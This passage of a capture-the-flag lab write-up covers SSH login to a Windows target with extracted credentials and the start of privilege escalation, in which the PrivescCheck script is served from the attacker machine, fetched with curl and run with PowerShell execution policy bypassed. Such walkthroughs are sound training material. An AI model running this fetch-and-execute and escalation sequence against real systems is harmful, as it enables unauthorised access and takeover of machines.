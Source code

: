 **Credentials Obtained:**
- Username: tyler
- Password: IAmA1337h4x0randIkn0wit!

### Initial Access via SSH
Using the extracted credentials, established SSH access to the target.

**Command:**
```bash
ssh tyler@10.201.79.117
Password: IAmA1337h4x0randIkn0wit!
```

**Successful Login:**
```
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.
tyler@HACKSMARTERSEC C:\Users\tyler>
```

**User-Level Flag Retrieval:**
Navigated to the desktop and retrieved the user flag.

```bash
tyler@HACKSMARTERSEC C:\Users\tyler\Desktop>type user.txt
THM{*****************}
```

## Privilege Escalation

### Privilege Assessment
To identify escalation vectors, deployed PrivescCheck, a PowerShell script for automated privilege escalation checks.

**Setup:**
- Cloned the PrivescCheck repository on the local machine.
- Served the script via HTTP for transfer to the target.

**Local Commands:**
```bash
git clone https://github.com/itm4n/PrivescCheck.git
cd PrivescCheck
sudo python3 -m http.server 80
```

**Target Transfer and Execution:**
```bash
tyler@HACKSMARTERSEC C:\Users\tyler\Documents>curl http://10.9.1.172/PrivescCheck.ps1 -o priv.ps1
tyler@HACKSMARTERSEC C:\Users\tyler\Documents>powershell -ep bypass
PS C:\Users\tyler\Documents> . .\priv.ps1; Invoke-PrivescCheck
```

**Critical Finding:**
PrivescCheck identified a vulnerable service: "spoofer-scheduler" running as LocalSystem with modifiable binary permissions.

